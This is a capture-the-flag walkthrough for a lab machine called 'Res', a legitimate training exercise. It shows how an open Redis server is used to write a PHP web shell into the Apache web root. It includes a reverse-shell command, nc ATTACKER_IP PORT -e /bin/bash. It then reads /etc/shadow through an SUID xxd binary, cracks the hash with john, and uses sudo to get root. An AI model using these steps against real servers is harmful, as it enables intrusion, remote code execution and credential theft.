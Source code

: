 ```yaml
---
title: "Res"
tags:
  - Easy
  - Linux
  - nmap
  - redis
  - xxd
---
```


| Difficulty |
| ---------- |
|    Easy    |

---

### [ Scan the machine, how many ports are open? ]

As always, we start off with a `nmap` scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.46.25
```

**Results:**

![screenshot1](../assets/images/res/screenshot1.png)

The results show **2** ports open

---

### [ What's is the database management system installed on the server? ]

**Redis** is installed on the server.

---

### [ What port is the database management system running on? ]

It is installed on port **6379**.

---

### [ What's is the version of management system installed on the server? ]

From the nmap scan, we can see that the version is **6.0.7**.

---

### [ Compromise the machine and locate user.txt ]

After doing some research online, I found this [website](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) which teaches us how to obtain Remote Code Execution via a Redis server:

![screenshot2](../assets/images/res/screenshot2.png)

We can connect to the Redis server using `redis-cli` (Installation: `sudo apt install redis-tools`):

```
redis-cli -h 10.10.46.25 -p 6379
```

By default, Redis servers do not require authentication to login. Fortunately, this is the case for us as we can log in without needing to supply any credentials!

![screenshot5](../assets/images/res/screenshot5.png)

Next, we need to set the working directory of our Redis client to the root directory of the web server.

**HTTP Web server on port 80:**

![screenshot3](../assets/images/res/screenshot3.png)

From the webpage, we know that the web server is running **Apache**. The root directory of Apache servers is **/var/www/html**.

We can then follow the exploit instructions like so:

```
// in redis-cli

config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo(); ?>"
save
```

This will create a new PHP file called **redis.php** in the /var/www/html directory of our target machine. We then set a key 'test' with a value of `<?php phpinfo(); ?>`

To test whether we can access this redis.php file and run the code, we visit `http://10.10.46.25/redis.php`:

![screenshot4](../assets/images/res/screenshot4.png)

Nice! It works :smile: 

Now let's change the PHP code so that we can inject some commands:

```  
// in redis-cli

set test "<?php system($_GET['cmd']); ?>"
save
```

When this PHP code runs, it will get the **cmd** parameter from the GET request sent to the web server. **system()** will then execute that command on the machine.

We then set up a netcat listener running on a port of our choice.

Finally, we can open up a reverse shell by visiting `http://10.10.46.25/redis.php?cmd=nc ATTACKER_IP PORT -e /bin/bash`

![screenshot6](../assets/images/res/screenshot6.png)

And we're in!

Visiting the **/home** directory, we can see that there is one other account: **vianka**.

The user flag can be found in vianka's home directory:

![screenshot7](../assets/images/res/screenshot7.png)

---

### [ What is the local user account password? ]

Let's do some manual enumeration.

Looking through Vianka's files yielded nothing of interest. There was also nothing useful in directories like **/opt** and **/tmp**.

Next, I decided to search for SUID-bit set files:

```
find / -type f -perm /u=s 2>/dev/null
```

**Results:**

![screenshot8](../assets/images/res/screenshot8.png)

We have an interesting file: `xxd`

Looking on [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), we can find the following way to exploit this program:

![screenshot9](../assets/images/res/screenshot9.png)

It seems that we can use this program to read any file that we like on the system. Let's follow the exploit steps and read **/etc/shadow**:

```
LFILE=/etc/shadow
./xxd "$LFILE" | xxd -r
```

![screenshot10](../assets/images/res/screenshot10.png)

And we have found Vianka's hashed password (at the bottom).

We then use `john` to crack the password.

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt
```

**Results:**

![screenshot11](../assets/images/res/screenshot11.png)

Password: **beautiful1**

---

### [ Escalate privileges and obtain root.txt ]

We can now log into Vianka's account.

![screenshot12](../assets/images/res/screenshot12.png)

Let's check Vianka's **sudo privileges**:

```
sudo -l
```

![screenshot13](../assets/images/res/screenshot13.png)

Turns out Vianka has complete sudo privileges, meaning they can run any program as any user, including root!

We can then obtain the root flag directly from the root home directory using `sudo`.

```
sudo cat /root/root.txt
```

![screenshot14](../assets/images/res/screenshot14.png)

